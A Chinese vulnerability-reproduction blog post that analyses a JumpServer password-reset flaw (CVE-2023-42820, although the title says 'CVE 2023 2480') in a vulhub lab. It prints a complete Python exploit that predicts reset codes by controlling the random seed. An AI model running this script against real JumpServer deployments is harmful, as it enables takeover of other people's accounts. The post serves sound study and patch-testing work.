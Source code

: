 +++
title = 'CVE 2023 2480'
date = 2024-05-21T14:41:04+08:00
draft = false
tags = ["漏洞复现"]
categories = ["漏洞"]
description = "jumpserver random seed设置有误造成的密码任意改"
image = "index/1716361642462.png"
+++

## 介绍

JumpServer是使用 Python / Django 进行开发，遵循 Web 2.0 规范的全球首款完全开源的堡垒机软件。因其开源，无插件，Web界面美观，操作方便，分布式，符合4A规范等特点，被很多企业广泛用于内部资产（物理机，云主机等）的管理。
CVE-2023-42820通过可控的伪随机数播种，构造随机数调用过程，计算出重置密码后的验证码，从而实现任意账号密码重置。

## 环境搭建

下载https://github.com/vulhub/vulhub/blob/master/jumpserver/CVE-2023-42820/，修改config.env的DOMAINS=[你的ip:端口]

![1716274683038](index/1716274683038.png)

然后直接docker compose，注意这里要启动docker服务、要安装了docker-compose

```
docker compose up -d
```

这里我虽然写了8888还是在8080，感觉并不用写端口，因为我看docker也没做映射

![1716275391597](index/1716275391597.png)

好的，做了实验还是得填8080，大概是后端的端口，想改可能还要同时改env里的 `CORE_HOST=http://127.0.0.1:8080`

用admin：admin直接登陆http://your-ip:8080即可

## 漏洞利用

可以看到

Patched versions>= v2.28.19, >= v3.6.5

在3.6.5和2.28.19都有一个叫做fix: 修复 random error的commit

![1716277497141](index/1716277497141.png)

在jumpserver中，按照下图逻辑进行验证

![1716278166625](index/1716278166625.png)

这里使用了django-simple-captcha实现验证码部分，

可以看到用了一个key，而且还提示了其他用这个部分的同学不要用同一个key来生成图片。
![1716279091529](index/1716279091529.png)
在url.py里可以看到这个key就是跟在后面的字符串
![1716279175872](index/1716279175872.png)这个key在url里，是可控的，类似这样。

`http://10.207.139.20:8080/core/auth/captcha/image/4cbbebb2305a4ef0d0e1242c352e288073537a7d/`

在网络服务中，接收用户交互的线程并不唯一，而random.seed()的作用只在当前线程，因此需要将我们控制的key作用在所有线程，所以exp的第一步为重放爆破，将我们控制的key大量发送get请求，使得所有服务器接收的线程均设置random.seed()。然后通过api调用，定位到忘记密码流程。
![1716279507847](index/1716279507847.png)

使用form_invalid方法对用户名是否存在进行验证，并通过random_string方法生成一个长度为36的token，带着token跳转到forgot-password页面。

再通过api定位发送验证码的调用函数

![1716279819826](index/1716279819826.png)

使用该类下create函数，通过random_string方法生成一个长度为6的验证码并进行发送

看下来这个random.seed()是作用于全流程的，所以我们需要考虑的是

![1716279923737](index/1716279923737.png)

返回一开始分析的captcha_image函数，该函数控制图片验证码生成，渲染，在每次的忘记密码找回时，均先调用该函数生成图片验证码，用户输入正确的用户名和验证码，才能跳转下一步，我们需要明确在该函数部分调用了几次random类的函数。

从头梳理，在django-simple-captcha里直接搜索random,可以找到

![1716280301856](index/1716280301856.png)

是旋转字符的，因为生成的captcha都是4个字符（8、*、3、=）

![1716280428846](index/1716280428846.png)

所以调用4次random.randrange(),在settings.py里也可以找到对应的定义，range是（-35，35）

![1716280712311](index/1716280712311.png)

还有noisy_function中


![1716280971009](index/1716280971009.png)
![1716280949744](index/1716280949744.png)
![1716281019286](index/1716281019286.png)
noizy_dot也用到了random，用了 `range(int(size[0]*size[1]*0.1))`次，
![1716281197925](index/1716281197925.png)
在jumpserver中可以看到capcha的大小是180*38，采用noise_dot的噪声算法

![1716359299723](index/1716359299723.png)

所以大概用了这些random

```python
for i in range(4):
    random.randrange(-35,35)

for j in range(int(180*38*0.1)):
    random.randint(0, 180)
    random.randint(0, 38)
```

于是得到exp

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)

```

具体来说，就是通过发送30个都发送带有对应seed的验证码生成请求来使每个线程的seed都为我们所设定的seed,此时服务端每个线程的random函数都是经过了一轮之前分析过得random操作后的状态，通过调用nop_random，我们本地的random状态和服务端的random状态是一致的，send_code方法和jumpserver的UserResetPasswordSendCodeApi中的code一致，由于我们本地和服务端状态一致，所以我们本地与运行send_code和服务端运行send_code也是一样的，生成的code也就是一样的了。

![1716361614012](index/1716361614012.png)

![1716361642462](index/1716361642462.png)

### 参考

https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw

